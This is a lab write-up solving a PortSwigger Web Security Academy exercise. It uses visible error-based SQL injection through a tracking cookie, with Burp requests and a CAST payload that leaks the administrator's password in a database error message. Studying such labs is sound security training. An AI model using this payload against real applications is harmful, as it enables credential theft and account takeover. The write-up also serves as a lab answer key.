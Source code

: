 *This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.*

Accessed the *My account* page and checked Burp HTTP History to check the request : 
```Burp 
GET /login HTTP/2
Host: 0aaa00f8034111d381c3437f004e0071.web-security-academy.net
Cookie: TrackingId=IO2vznEfZ4GGAstg; 
...
```
The response was the login page. 

I tested the application for SQLi by inserting a `'` in the cookie, as such: 
```Burp 
GET /login HTTP/2
Host: 0aaa00f8034111d381c3437f004e0071.web-security-academy.net
Cookie: TrackingId=IO2vznEfZ4GGAstg';
...
```
I received the following response: 
```Burp 
<h4>Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'IO2vznEfZ4GGAstg''. Expected  char</h4>
```
I then tried to see if i can obtain a visible error. Using `CAST()` i modified the query to the following : 
```Burp 
GET /login HTTP/2
Host: 0aaa00f8034111d381c3437f004e0071.web-security-academy.net
Cookie: TrackingId='||CAST((SELECT password FROM users LIMIT 1)AS int)--;
```
I removed the value of the cookie and used `limit 1` to bypass the character limit on the query, which will throw unexpected errors.

I received the following response: 
```Burp 
<p class=is-warning>ERROR: invalid input syntax for type integer: "tirdib4p6fzefsyevp93"</p>
```
I then logged in using the credentials : 
![[Screenshot 2024-05-02 at 5.33.43 PM.png]]

